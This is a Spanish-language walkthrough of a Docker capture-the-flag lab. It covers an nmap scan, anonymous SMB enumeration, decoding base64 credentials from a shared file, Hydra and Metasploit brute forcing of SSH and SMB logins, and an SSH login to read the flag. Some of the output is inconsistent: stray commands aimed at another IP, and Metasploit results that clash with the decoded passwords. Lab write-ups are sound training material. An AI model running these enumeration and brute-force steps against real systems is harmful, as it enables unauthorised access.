

QUE ES DOCKER Y COMO LO INSTALO
sudo apt update
sudo apt install -y docker.io
sudo systemctl enable docker --now
sudo usermod -aG docker $USER
COMO EJECUTAR UN LABORATORIO
# 1. Descomprimir el archivo
tar -xvf transportadora_rapida.tar
# 2. Entrar a la carpeta
cd transportadora_rapida
# 3. Ejecutar el laboratorio con el script incluido
sudo bash startlab.sh transportadora_rapida.tar
SE INICIA EL LABORATORIO EN EL DOCKER

SE INICIA RECONOCIMIENTO MEDIANTE HERRAMIENTA NMAP
╰─ sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvvv -n -Pn 172.17.0.2Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-14 22:47 +0200
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:47
Completed NSE at 22:47, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:47
Completed NSE at 22:47, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:47
Completed NSE at 22:47, 0.00s elapsed
Initiating ARP Ping Scan at 22:47
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 22:47, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:47
Scanning 172.17.0.2 [65535 ports]
Discovered open port 139/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 445/tcp on 172.17.0.2
Completed SYN Stealth Scan at 22:47, 0.68s elapsed (65535 total ports)
Initiating Service scan at 22:47
Scanning 3 services on 172.17.0.2
Completed Service scan at 22:47, 11.02s elapsed (3 services on 1 host)
NSE: Script scanning 172.17.0.2.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:47
Completed NSE at 22:47, 0.39s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:47
Completed NSE at 22:47, 0.01s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:47
Completed NSE at 22:47, 0.01s elapsed
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2026-04-14 22:47:36 CEST for 12s
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 5a:0b:2a:61:fa:ce:89:76:f2:e9:97:79:72:5e:51:6e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDITjeQAMfxTLUdb21jSUaTqNtpbR7akMG1imE+YOcQvrY/5t0L/4ltdmwZ+c5RITQu2pDYF7gYTeEGCX6BI+lUUAaMSEGbkFxmnnmjvM58KgQp2U2dpx4iRscdkaawyofbax87TJHklq5CroJfCwujBiGRQiAgsnXCM8wgzw5BwCEmITOiKsdY8Pmv5jHbFdmQhdZ7hkSYXZoAYaJ2SKmyV8wHh2XMbXLyYFuFPC7v/lr0P5hYYrKbOcnFutqcwWFXGrVmvlFnkyIKiyelK7sYUc4JeVrTGkrerXpHOeMsi13hDTm8teEHpWeYJLLigi8fiF+6g6HRL5pzv7tH/tvDYQSvIdYs0O+R+zBpDqH0SdldWrZZhjxjDsvXFdV1UY+lk3BANeX5UDjvERamcr3qxrQxlzFQPq7NS11GeGdEHNu6bDB4gpwWmXPW//ukEs2bbagihB32IBzp6cZsENU3Yxc07UDB20LcvgwtjFYsFeHEbwnHTYL5fphrksnLB5E=
| 256 c9:4e:5a:e9:46:54:d1:8b:d2:23:c7:3a:2f:84:af:d2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFme4ejUOEq0UlH+TA30JSJxfVZAbHbmsvn6qpwFBlP0XKU6pQurjGReEJdfGSRXPB4Yv/jmlu0Eys6G5bMRh1k=
| 256 c7:b5:1a:97:f4:be:34:c1:3e:fd:2f:aa:d1:79:94:a4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBuz08dYpsY9uvXY8Ds9pF0alqf0C34pCB3+7sb40fMB
139/tcp open netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: C6:B0:DD:61:D6:45 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: 0s
| p2p-conficker:
| Checking for Conficker.C or higher...
| Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
| Check 2 (port 25701/tcp): CLEAN (Couldn't connect)
| Check 3 (port 58197/udp): CLEAN (Failed to receive data)
| Check 4 (port 24901/udp): CLEAN (Failed to receive data)
|_ 0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: CRITICAL-SYSTEM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
| CRITICAL-SYSTEM<00> Flags: <unique><active>
| CRITICAL-SYSTEM<03> Flags: <unique><active>
| CRITICAL-SYSTEM<20> Flags: <unique><active>
| \x01\x02__MSBROWSE__\x02<01> Flags: <group><active>
| WORKGROUP<00> Flags: <group><active>
| WORKGROUP<1d> Flags: <unique><active>
| WORKGROUP<1e> Flags: <group><active>
| Statistics:
| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_ 00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time:
| date: 2026-04-14T20:47:48
|_ start_date: N/A
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled but not required
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:47
Completed NSE at 22:47, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:47
Completed NSE at 22:47, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:47
Completed NSE at 22:47, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.64 seconds
SE ENUMERA LOS RECURSOS COMPARTIDOS DEL SERVICIO SMB
╰─ smbclient -N -L /172.17.0.2
Sharename Type Comment
--------- ---- -------
public Disk Public Resources
IPC$ IPC IPC Service (CRITICAL-SYSTEM)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
CONEXIÓN AL RECURSO COMPARTIDO
╰─ smbclient \\\\172.17.0.2\\public
smbclient -N -L \\\\10.129.42.253 # Listado SMB
smbclient \\\\10.129.42.253\\users # Acceso por SMB
smbclient -U bob \\\\10.129.42.253\\users # Acceso con usuario
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \>
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Fri Jan 9 23:33:27 2026
.. D 0 Fri Jan 9 23:33:27 2026
upload D 0 Fri Jan 9 23:33:27 2026
system D 0 Fri Jan 9 23:33:27 2026
download D 0 Fri Jan 9 23:33:27 2026
48614564 blocks of size 1024. 18581400 blocks available
smb: \>
cd system\
smb: \system\> ls
. D 0 Fri Jan 9 23:33:27 2026
.. D 0 Fri Jan 9 23:33:27 2026
db.txt N 226 Fri Jan 9 23:33:27 2026
48614564 blocks of size 1024. 18581400 blocks available
smb: \system\>
get db.txt
getting file \system\db.txt of size 226 as db.txt (27,6 KiloBytes/sec) (average 27,6 KiloBytes/sec)
smb: \system\>
SE LEE LA BASE DE DATOS DESCARGADA
╰─ cat db.txt
admin:cGFzc3dvcmQxMjM=
john:cGFzc3dvcmQyMzQ=
maria:cGFzc3dvcmQzNDU=
carlos:cGFzc3dvcmQ0NTY=
rosa:cGFzc3dvcmQ1Njc=
pepe:cGFzc3dvcmQ2Nzg=
luis:cGFzczIwMjYjKiE=
david:cGFzc3dvcmQ3ODk=
ana:cGFzc3dvcmQ4OTA=
SE PROCEDE A SEPARAR USUARIOS DE CONTRASEÑAS
╰─ cut -d ':' -f1 db.txt > users.txt
SE SEPARAN CONTRASEÑAS Y SE DECODIFICAN EN BASE64
╰─ cut -d ':' -f2 db.txt | while read line; do echo $line | base64 -d; echo; done > pass.txt
EXPLOTACIÓN EN HOST
SE HACE FUERZA BRUTA CON HYDRA
╰─ hydra -L users.txt -P pass.txt ssh://172.17.0.2
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-04-14 23:40:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100 login tries (l:10/p:10), ~7 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2 login: pepe password: pass2026#*!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-04-14 23:40:49
OTRA FORMA DE HACERLO ES CON MSFCONSOLE
─ msfconsole -q
use auxiliary/scanner/smb
# Name Disclosure Date Rank Check Description
0 auxiliary/scanner/smb/impacket/dcomexec 2018-03-19 normal No DCOM Exec
1 auxiliary/scanner/smb/impacket/secretsdump . normal No DCOM Exec
2 auxiliary/scanner/smb/smb_ms17_010 . normal Yes MS17-010 SMB RCE Detection
3 \_ AKA: DOUBLEPULSAR . . . .
4 \_ AKA: ETERNALBLUE . . . .
5 auxiliary/scanner/smb/psexec_loggedin_users . normal No Microsoft Windows Authenticated Logged In Users Enumeration
6 auxiliary/scanner/smb/smb_enumusers_domain . normal No SMB Domain User Enumeration
7 auxiliary/scanner/smb/smb_enum_gpp . normal No SMB Group Policy Preference Saved Passwords Enumeration
8 auxiliary/scanner/smb/smb_login . normal No SMB Login Check Scanner
9 auxiliary/scanner/smb/smb_lookupsid . normal No SMB SID User Enumeration (LookupSid)
10 \_ action: DOMAIN . . . Enumerate domain accounts
11 \_ action: LOCAL . . . Enumerate local accounts
12 auxiliary/scanner/smb/pipe_auditor . normal No SMB Session Pipe Auditor
13 auxiliary/scanner/smb/pipe_dcerpc_auditor . normal No SMB Session Pipe DCERPC Auditor
14 auxiliary/scanner/smb/smb_enumshares . normal No SMB Share Enumeration
15 auxiliary/scanner/smb/smb_enumusers . normal No SMB User Enumeration (SAM EnumUsers)
16 auxiliary/scanner/smb/smb_version . normal No SMB Version Detection
17 auxiliary/scanner/smb/smb_uninit_cred . normal Yes Samba _netr_ServerPasswordSet Uninitialized Credential State
18 auxiliary/scanner/smb/impacket/wmiexec 2018-03-19 normal No WMI Exec
msf > use 8msf auxiliary(scanner/smb/smb_login) > set user_file users.txt
user_file => users.txt
msf auxiliary(scanner/smb/smb_login) > set pass_file pass.txt
pass_file => pass.txt
msf auxiliary(scanner/smb/smb_login) > set rhost 172.17.0.2
rhost => 172.17.0.2
msf auxiliary(scanner/smb/smb_login) > run
[*] 172.17.0.2:445 - 172.17.0.2:445 - Starting SMB login bruteforce
[+] 172.17.0.2:445 - 172.17.0.2:445 - Success: '.\admin:password123'
[!] 172.17.0.2:445 - No active DB -- Credential data will not be saved!
[+] 172.17.0.2:445 - 172.17.0.2:445 - Success: '.\john:password123'
[+] 172.17.0.2:445 - 172.17.0.2:445 - Success: '.\maria:password123'
[+] 172.17.0.2:445 - 172.17.0.2:445 - Success: '.\carlos:password123'
[+] 172.17.0.2:445 - 172.17.0.2:445 - Success: '.\rosa:password123'
[+] 172.17.0.2:445 - 172.17.0.2:445 - Success: '.\pepe:password123'
[+] 172.17.0.2:445 - 172.17.0.2:445 - Success: '.\luis:password123'
[+] 172.17.0.2:445 - 172.17.0.2:445 - Success: '.\david:password123'
[+] 172.17.0.2:445 - 172.17.0.2:445 - Success: '.\ana:password123'
[+] 172.17.0.2:445 - 172.17.0.2:445 - Success: '.\sandra:password123'
[*] 172.17.0.2:445 - Scanned 1 of 1 hosts (100% complete)
[*] 172.17.0.2:445 - Bruteforce completed, 10 credentials were successful.
[*] 172.17.0.2:445 - You can open an SMB session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed
msf auxiliary(scanner/smb/smb_login) > quit
CON EL USUARIO Y LA PASSWORD SE ACCEDE POR SSH
╰─ ssh pepe@172.17.0.2 ** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
pepe@172.17.0.2's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 6.18.12+kali-amd64 x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/pro
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.
To restore this content, you can run the 'unminimize' command.
pepe@critical_system:~$
SE OBTIENE FLAG EN CARPETA TMP
pepe@critical_system:/tmp$
cat flag.txt CTF{FILE_PERMISSION_ESCALATION}
SE CIERRA LABORATORIO